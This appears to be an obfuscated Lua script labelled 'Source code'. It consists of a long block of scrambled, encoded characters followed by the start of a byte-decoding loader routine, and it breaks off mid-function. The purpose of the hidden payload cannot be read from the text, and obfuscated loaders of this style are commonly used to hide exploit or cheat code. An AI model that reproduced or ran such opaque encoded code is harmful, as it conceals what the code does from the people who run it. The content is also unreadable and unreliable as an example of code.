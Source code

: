 hhiIY{nG_Mhnx,Qxf,hMI_vhMZG;{Gh{TTivYxnvf;{iTMQQfhnGIYxTMvGn,,hnYii;;QnhQI{{xTQffGY,InhiMMGk,hhIThvGGfnG{v{niiQ;fS;;IZ{YMQ,{,GTvTnh,Ynni{M{4QYQQ;{;GGfvnMhIx,,hMTiYhYITY#G{;inQvfx;iQ;vzMhGQ{YhGT{iG{vnnk,{;ni/MfQ;YIvn{;Gif,nh,TQiM,ITh;hYIn{QGff;iMvfx;iG;,8hG{Q,h8Gn{pT{MGiQMG&fhvGvYhIffhT;TGfYnY,nx/YMQxYMGQfI{QGYfMnGv,IQM{5{}Mi{M;QIhvIM{GI,IG,f;QcGM,QhGvfYTxv,x{,vxSxkiGM;QIhvv{T,v{xQiG;Q9QhI0vjYMfIQYfG;;xv,xhiMhMQTYQQ{Y{GGIi{TTxvQnfhQdvhYQTYTIfix{GGYfYnnvDQMYxGMfQnIIQYYGMfGT,x{ii;M;hi{MEQ{Yx,{nGvnxv>YMG2QMMITYIMIIY{nGKf{Tv,Qxfi;MI6vhMIGM,GIfTTivYxn,q;Tpx;QQTY;GI{vTMvGnG,h;T,vMYQThEIY{xTQffn;fxxvixMGdfhhITYiGY{nT.vYxx,i;fOnhIivh,GG{fThvGni,M;ni:TIQxhiIf{nTIffnM,GTiihMIgih;InY>G{YxTNvfxniI;{zMMhQ,MhQ;{iTMvnn,,{xo*QxfEiYII{{MTQf,TY,Tnvi;Mnlfh{QY{QGff;GIfJxM,i;,bnhTQQYYQnYbT{vQxQ,f;;KQMvQMMfI,{TTTfYnY,nxVv{TLQQhxI;{IGvfTnGv,niiT;h7YMiQSY{GxYQT{v;nf,v;INGMxQhMTQ;{YG,fDn{,xx,ifM;_vhvIQ{GG;fhnTvixYv,;g<;hxQYYfGnfIG{fGxG,h;hi{MiQYYnI1hrTxffnf,x;Ii{MMiGT{IhYiGifnnnv{x{ixx9-fhIIIYMGMfGT,f;Tf,i;T=nMGQ{YxGQ{fI,vIn{,Mxvi,MMQThiQI{nGtf{nn,Qxfi;MICvhMIGY,GGfTTivYxT,v;{=xhQY,TI{{{fG{vGn,,hIMMCIh{Qni{vTvvTx{,G;hi,MYMI>QhhITYifMxGvM;YiG;,Q;hGIh{hx,)TMiTMfhni,Y;n{iQvYvGTf{TGvhn,,YhYjYiM;{6ihYInxifvnv,T;{iGMhD,hYhIQxYhGT{iRQx;,v;;QnhGIh{IhTIv{MTG{fT,,Tx,iY;i}}h{IxhQIif;nQvvx;iG;v-hMIQIYYGG{7TxvxxQ,f;;,;MvQ;YGIf{hTIfiTMffx_ihMx3,hfI;{IGvfnnGv{xhiT;i2YhnQ2YQGx{iTfvnxI,Y;MiG;vQhYGIi{xTnf,n{,xGiifMnQIhvIM{GG,YhTfvixMin;,L{hTIQYfIIfIThvMxI,,;hOTMi=;YnI,{{TIvQnf,;;Ii;MMQQh,Ih{TGifYnnvQx{ixMQH{h;IIYvGMfGT,vhxGvG;Y3nMCQYYQGQ{fT;xIif;i!QM{MM?{hiIY{nfhnf,T;xihM;IQYYGGIIYYGhfTTiM;iQMQ6{wnMhQfY;GIxvvhn2in;nk{M!QfQTh{I{{xTQxMiI;xFf;iMIixhhITYiiGnOvfM{iTMIcfYIQVYhIi,&nx,MxxiMMnQQYvIIYiGGf{T{TQfInM,Gx,{IQih{n;{vT;fixIvi;;ihiQ;GWMhGQ,xnf{Tf,;xxiI;vQQh,QMQxh,Iv{MTGMh,{xi-Iih;,UHh{Ixx,fvnh,T;Myn;i;vihhTQiYYiGnivixYQ{;vD{h,IMYxT>fhT;f,xY,M,TxTi{MxQQTnfxThfhMI,TxfIxMfQxh,GQQ,Y{GxfQTfv;xIYiGMZIMYQhYTIiTG,Tx;,;,nxvifM;QIn{f;T;vIf;nTvixYin;B&{;I,QYYG;fITvvMxG,,InfTM,NvYnI!{{iRxn,v;Mi*Y:I;hiGh{;T{v,n,nTvvx{ixMQf{I,YwYfGTfGT,vh,SM,c;hYM,MQ0vhMIGY,GhYTYh;Qi,MhQThiIY{nTZMfnnvvxfi;MIYnIG{fThGM{fTivYxnYGQYhIIfYYG,vQnQT;fin,,h;TYiQ,{TI;IYYMTQffn;hfATMYQifMIr{IGffxMI,M;IiYMv;{i,hIQvYM,xnv,Ixxix;xi#hfIxQnhvIf{;TInri;xi!xxvMT9ihYInMQG{fxnQvfx;iI;v4IG;Q,YhGT{TTYvTnk,Y;xivxYQ;YIIvYvTGfvnh,TGNiYMndmhYIx{QGfY;GivvxMiG;,UhMIQihMIW{4TYvxnM,f;;AIxvwiYGIv{hTGfiTI,nTJ,iMx<phfIx{IIYfMTvvnxhiT;iiihnQiY{GnfQTM{nxI,v;MiMM,QMYTI{hMTnfpn{vY;Qi{M;QInxIM{GG,fMnTvixYinIZb{hxIQYfG;fITvfxnv,,;M.T;GQYYnI.h{G;vQn{,;;Qiv;QQGMfQn{TGvfYnTv1x{ixxidMh;QiYvGxfGT,vhTTv,;YNIM9QMYxIn{fGnfhnv,G;GiGMhQThiIYYfGgfMnxvfxfinMI,vTGIGY{GhfQTivGxn,DTY.xM,QfYGGI{vTMvGQ{,h;IiiMYQnhfI{{IQiffn;,ITxiMMI6,;hfiYiGGfnTYv{TfiQxYi;hIQTYMIT{,ThvTniYI;nihM{cvYQIY{;Gf;QnMvfx,v{MT2,hYITYeG;YTnQvfx;vT;vo;hGQYM;GT{iTYY,n.,Y;xlQnvQ;hYIv{xTGf,nhfTG;iY;v(5hGIxYvGfY;G,vvniiG;;LhMZQiYYIf{#TGvxnh,fx,aIxvaxYGIx{hGffiGi,nxYihMxyhhfig{IGffMnIv,xnvI;icYhnihY{GnfQTffGxI,f;Mi{M,QhYTIiYxTnfln{vi;QifM;(fThIM{QG,{QnTv,xYiG;SX;;TIQYfG;YYTvv;xG,MQv8TMiQY;hI!{YTxf0nf,GTtivMMQG;IIh{GGifxGGvyx{ixnI.fhxIIhiQnfGGvvhGn,i;henMiQ{YIbi{fT;vII,,M;Ii,MniIhiIY{nW#f{nn,QxfY.MI8vhMIIY,GhfTTiY{xn,,;{aGhQQfY;GI;fTMfgn,,n;TiiMYQnhYI{{TTQfYn;v6xviMxYb,hxITYfGYfnT*v{nYiQ;Mz;MvQvYMGG{,GMvTnf,Y;GitMhQxMQIn{;G,fvnx,GnnihMTpnhYIQY9GhfxTevfx;YI;v?ThGQYYhGT{iTY{vn ,x;xUQMfQ;YIIvhvTGfMnh,GxiiYMn,SMvIxY{GffQnIv;xM,Q;IDhMfQihMGn{&T{vxTY,f;Q1IMnQMYQI,hhIifinT,nxYi{;fQQhxQn{IGnfMnIv,xMiT;{jYhnfxY{GxfQT{v;xI,v;MfQM,QhYTIv{YTnf_n{YT;QifM;PihvIM{GG,M;nTvixY,:;j:{hxIQxTG;{fTvfXxG,f;h1T;{QYYQI.{nTxvQnf,QxMivMGQGT1Ih{GGifYnnvfThixMQ fThIIYfGM{viIvhn7,iIimnMiQ{YnGQ{MInvInv,MIMi,MMQTh{XM{nGSf{Ch,Qx{i;xI{MhMQvY,GnfTT;vYxnY;;{i/hQQYY;GQ{vTMMfn,,h;Ti,MYQnh I{M;TQfxn;v3xviMMG,,xIITYhGY{iT9v;xxvQTn};M{QvYMGG{YThvTnM,YxiiPMnQxhYIfh;*{fvnI,GxMihxhSiMMfYYdGTfxGvvfx;iInvYMhGQ;YhIv{iGfvnnLvv;xiYMfQxYIIf{MTG{;nhvvxiiMMn<0h{0xYvGf{_nIvxxM,i;,,hhQQiYIGn{AT{vIxQ,f;IaIMxQMhfI,{QTTYinG,nxYi{;iQQMQI;MfzTfMTvv,QxiT;,zYMMQ9Y;QTfQTfv;4i,v;;RGx,fTYTIM{YTGf9nM,x;Q,IM;3{hvIx{GGvfhGTfYxY,,;sEMhxzMYfG;{,TvvQxG,f;h>GMisMhTIt{TTx{vnf,;;Ivv;IQGh;IhYvGi{fnnf,niix;hqfMIIIYvGMfGG,vhnv,i;MNnMiQ{hTvx{fGKvITh,M;Gi,xh{ThiIG{nGhf{TM,Qxf,QMI9xhMIIY,GMfTTifGxn,h;{gThQQfY;QIYiTMffn,,I;Ti{MYinhQI{Y,TQffn;v,xviM;VS,hIITYMGY{vTK{{TCiQ;x8;M{QvMvGGhMifvTnh,Y/ni.MYQxhQIf{GQ*fvnM,Gi,ihMGXihx&GY1G{fx,fvfxxiI;vvhhGQ;YhGG{iTYvnGZ,{;xiYMf1uYIQ{{MGQ{fnhvfxiiQMncZh{?xY3Gf{inIvnxMv{;,,hM;QiYIGn{MT{fGxQ,xnvPIMxQMI{I,{MTTf;nY,QT,i{MxQQITI;{QGvfTGQv,xhiTihKYhTQtY{C;fQTnv;xI,v;M>GMMBiYTIM{YfhfVnY,x;QifMG,KhvIM{GfIfhnGvixxvG;HK{hxh{YfGxfITvYhxG,;;hi,MiQYYnIcxTTxfYnf,x;IifMMQGMIIhYvGifhnnvex{ix;v(fMbIIYvGMfGT,f;nM,i;G-n;fQ{YxGQhfGTvInx,Mxfi,MTQTMvI;{nGMf{GV,Qxfi;;fi{hMQYY,GhfTT,vYxT,3;{YfhQQfY;GI{vTMvGn,hM;TiMMY1fh(IY{xG{xNn;v,xvxiMGpvhhIGYiGxYGTdv{xxxM;f6xhIQhMxGG{,ThThni,h;nvHGxQxhYIf{GTIfnnM,GInih;vOihMInYiG{fxpYvfx;iI;fgMhGQ,Y;GT{iTYvnn(,{;xi,MfQ;YIIv;ITGf,nh,TxiiYMnsBn,Ix{QGff;nIvvxMiGG;.hhTQiYhGn{FT{vxxQ,f;;mIM;QMYGI,{MGCfinY,nI{MvQQYTh{IG{IGvfMi1xYiYMT;,ivhnQDY{,8nnvvxM,0hVQ;MiIhY;G{f,T,TTfMn{,x;QYiIxh,GM{xTYvvnvnGvxxYin;=fIIGvQG vxTh,TxYif,v;xDTMiQYxTf;ThI,vQnf,;;IvTMMQGh,Ih{TGifYGnvGx{ixMQufh;QiYvIxYMT,vMxT,,;YmnMOi{MvGQ{{T;vQnv,T;Gv,;YQTh,IY{TGRfnnxv{nQi;MI:vMQIGYvGhfGTivxTG,S;{!x;YQfYxGI{vQhvGn,,h;GiiMYQn;diT{xTQffn;,IxMiM;veThhITYiIffnTiv{xxiQ;M,nhIQvYMIn{,TMvTni{{;nizM{QnYQIf{;II;MnM,Gx,ihMT/vhYInx;G{fxnQvYx;iQ;v2MxTQ,YhGT{vTYvnn+f{GieQMfQ;YIIv{GTGfMTi,TxiiYxWZehYIx{QGffGICvvxMiGxhzhhGQiYY_x{eT{vxni,f;;-IxvfGYGI,{hTTfinM,nxF{IMxQQhfIn{IGffMnGhMxhiT;i(hhnQ^Y{GxMTTfv;xI,Y;MqGM,QhnvIi{YTnfin{,x;QifM;QIhvIM{GG,");local n=0;r.CnnFVMcL(function()r.GpAqyXkY()n=n+1 end)local function e(f,e)if e then return n end;n=f+n;end local f,n,s=o(0,o,e,c,r.BpxwUWFk);local function d()local n,f=r.BpxwUWFk(c,e(1,3),e(5,6)+2);e(2);return(f*256)+n;end;local k=true;local k=0 local function m()local e=n();local n=n();local l=1;local h=(f(n,1,20)*(2^32))+e;local e=f(n,21,31);local n=((-1)^f(n,32));if(e==0)then if(h==k)then return n*0;else